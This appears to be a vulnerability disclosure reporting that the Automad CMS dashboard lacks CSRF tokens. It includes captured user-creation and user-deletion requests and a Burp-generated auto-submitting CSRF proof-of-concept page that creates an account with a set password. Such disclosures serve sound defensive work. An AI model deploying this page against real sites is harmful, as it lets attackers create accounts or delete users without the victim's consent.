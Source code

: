 # Cross-Site Request Forgery (CSRF)

After observation, it was discovered that the application does not implement CSRF tokens by default, making it vulnerable to CSRF attacks. 

This impacts the overall functionality of the application. Below is a view of one of the action requests while adding a user

```php
POST /dashboard?controller=UserCollection::createUser HTTP/1.1
Host: automad.scr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 76
Origin: http://automad.scr
Connection: close
Referer: http://automad.scr/dashboard?view=System
Cookie: Automad-8d86b702d2bd8d7c568d8600480adaef=feu6beoo6sc7ha2gp2gilsk211
X-PwnFox-Color: green

username=User&email=User%40example.com&password1=Passw0rd&password2=Passw0rd
```

CSRF HTML:

```php
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://automad.scr/dashboard?controller=UserCollection::createUser" method="POST">
      <input type="hidden" name="username" value="User" />
      <input type="hidden" name="email" value="User&#64;example&#46;com" />
      <input type="hidden" name="password1" value="Passw0rd" />
      <input type="hidden" name="password2" value="Passw0rd" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![Untitled](https://github.com/screetsec/VDD/assets/17976841/0077947a-b991-4f1d-b530-9b4731db8664)

![Untitled 1](https://github.com/screetsec/VDD/assets/17976841/d070a3da-83d1-46d6-b16c-94d42a6fc637)

Delete Users:

```php
POST /dashboard?controller=UserCollection::edit HTTP/1.1
Host: automad.scr
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 17
Origin: http://automad.scr
Connection: close
Referer: http://automad.scr/dashboard?view=System
Cookie: Automad-8d86b702d2bd8d7c568d8600480adaef=feu6beoo6sc7ha2gp2gilsk211
X-PwnFox-Color: green

delete%5B%5D=User
```
